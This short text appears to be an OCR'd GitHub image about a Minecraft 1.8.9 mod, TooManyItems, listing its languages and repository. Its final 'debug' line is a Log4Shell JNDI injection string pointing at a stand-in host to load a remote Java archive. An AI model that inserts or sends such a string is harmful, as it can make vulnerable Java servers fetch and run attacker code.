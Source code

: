 #Supported languages:
- English
- International Phonetic Alphabet
- Autistic Chinese
- lang.128.name

##TOOMANYITEMS MOD 1.8.9 (Upgrated by me)
github.com/HowardZHY/TooManyItems

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
